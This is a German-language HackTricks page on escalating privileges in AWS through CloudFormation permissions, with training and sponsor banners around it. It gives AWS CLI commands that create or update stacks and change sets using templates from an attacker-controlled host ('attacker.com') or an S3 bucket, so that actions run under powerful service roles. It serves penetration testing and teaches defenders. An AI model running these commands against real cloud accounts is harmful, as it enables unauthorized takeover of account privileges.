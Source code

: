 # AWS - Cloudformation Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## cloudformation

Für weitere Informationen zu cloudformation siehe:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ein Angreifer mit diesen Berechtigungen **kann Privilegien eskalieren**, indem er einen **CloudFormation-Stack** mit einer benutzerdefinierten Vorlage erstellt, die auf seinem Server gehostet wird, um **Aktionen unter den Berechtigungen einer bestimmten Rolle auszuführen:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
In der folgenden Seite haben Sie ein **Exploitation-Beispiel** mit der zusätzlichen Berechtigung **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potenzielle Auswirkungen:** Privesc auf die angegebene Cloudformation-Service-Rolle.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In diesem Fall können Sie eine **bestehende Cloudformation-Stack** ausnutzen, um sie zu aktualisieren und Privilegien wie im vorherigen Szenario zu eskalieren:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst die `UpdateStack` Berechtigung** für einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc auf die angegebene cloudformation-Dienstrolle.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Wenn Sie diese Berechtigung haben, aber **keine `iam:PassRole`**, können Sie dennoch **die verwendeten Stacks aktualisieren** und die **IAM-Rollen, die bereits angehängt sind, missbrauchen**. Überprüfen Sie den vorherigen Abschnitt für ein Exploit-Beispiel (geben Sie einfach keine Rolle in der Aktualisierung an).

Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst die `UpdateStack` Berechtigung** für einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc auf die bereits angehängte cloudformation-Dienstrolle.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ein Angreifer mit Berechtigungen, um **eine Rolle zu übergeben und ein ChangeSet zu erstellen & auszuführen**, kann **einen neuen cloudformation-Stack erstellen/aktualisieren und die cloudformation-Dienstrollen missbrauchen**, genau wie bei CreateStack oder UpdateStack.

Der folgende Exploit ist eine **Variation des**[ **CreateStack Exploits**](./#iam-passrole-cloudformation-createstack), die die **ChangeSet-Berechtigungen** verwendet, um einen Stack zu erstellen.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Die `cloudformation:SetStackPolicy` Berechtigung kann verwendet werden, um **sich selbst `ChangeSet` Berechtigungen** über einen Stack zu geben und den Angriff durchzuführen.

**Potenzielle Auswirkungen:** Privesc zu cloudformation Dienstrollen.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Dies ist wie die vorherige Methode, ohne **IAM-Rollen** zu übergeben, sodass Sie einfach **bereits angehängte nutzen** können, ändern Sie einfach den Parameter:
```
--change-set-type UPDATE
```
**Potenzielle Auswirkungen:** Privesc auf die bereits angehängte Cloudformation-Service-Rolle.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ein Angreifer könnte diese Berechtigungen missbrauchen, um StackSets zu erstellen/aktualisieren und willkürliche Cloudformation-Rollen auszunutzen.

**Potenzielle Auswirkungen:** Privesc auf Cloudformation-Service-Rollen.

### `cloudformation:UpdateStackSet`

Ein Angreifer könnte diese Berechtigung ohne die passRole-Berechtigung missbrauchen, um StackSets zu aktualisieren und die angehängten Cloudformation-Rollen auszunutzen.

**Potenzielle Auswirkungen:** Privesc auf die angehängten Cloudformation-Rollen.

## Referenzen

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
